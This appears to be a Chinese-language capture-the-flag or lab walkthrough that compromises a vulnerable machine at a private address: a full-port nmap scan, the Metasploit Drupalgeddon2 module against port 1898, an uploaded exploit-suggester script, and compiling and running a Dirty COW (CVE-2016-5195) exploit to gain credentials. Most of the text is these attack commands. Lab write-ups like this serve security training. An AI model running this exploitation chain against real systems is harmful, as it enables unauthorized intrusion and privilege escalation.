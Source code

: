 `nmap -sS -T4 -p 1-65535 -v 192.168.64.141`  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217134916.png)  
发现drupal,利用漏洞  
通过开放的1898端口进入网站，看到目标网站，发现网站cms是drupal  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217134917.png)

    
    
    # msf 搜索drupal漏洞,使用可利用漏洞进行攻击  
    >search drupal  
    # exploit/unix/webapp/drupal_drupalgeddon2  
    >use 1  
    >set rhosts 192.168.64.141  
    >set rport 1898  
    >run  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217134918.png)

信息收集

上传信息收集脚本，发现存在脏牛提权漏洞

    
    
    upload /tmp/linux-exploit-suggester.sh  /tmp/lasc.sh  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217134919.png)  
进入shell 执行信息收集脚本,执行结果中发现【CVE-2016-5195】脏牛漏洞

    
    
    shell  
    cd /tmp  
    chmod 777 lasc.sh  
    ./lasc.sh  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217134921.png)

漏洞利用  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217134922.png)  
下载exp,上传exp

    
    
    # 40611没成功,使用40847  
    mv 40847.cpp /tmp/   
    upload /tmp/40847.cpp  /tmp/lasc.cpp  
    # 进入shell编译执行exp,得到登录密码  
    shell  
    g++ -Wall -pedantic -O2 -std=c++11 -pthread -o exp lasc.cpp -lutil  
    ./exp  
    